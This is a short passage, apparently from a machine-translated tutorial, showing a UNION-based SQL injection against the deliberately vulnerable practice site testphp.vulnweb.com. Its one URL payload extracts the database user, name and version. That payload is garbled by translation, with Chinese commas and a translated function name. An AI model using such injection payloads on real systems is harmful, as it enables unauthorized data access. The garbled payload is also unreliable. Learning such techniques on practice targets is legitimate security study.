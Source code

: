**我现在知道我在 7，2 和 9 的地方写的任何东西都是可见的。我想知道`current database`、`user`和`version`，所以我执行**

**【https://testphp.vulnweb.com/listproducts.php? cat = 1% 20 union % 20 select % 20 all % 201，用户()，3，4，5，6，数据库()，8，版本()，10，11 。**

> **注意:%20 是表示空格的 ASCII 码**

**我把 2 换成了`user()`，7 换成了`database()`，9 换成了`version()`。**

**我将了解数据库，数据库版本和用户的详细资料。**

**![](img/a8a0be0ed49f822a2b9600fd70ae4752.png)**
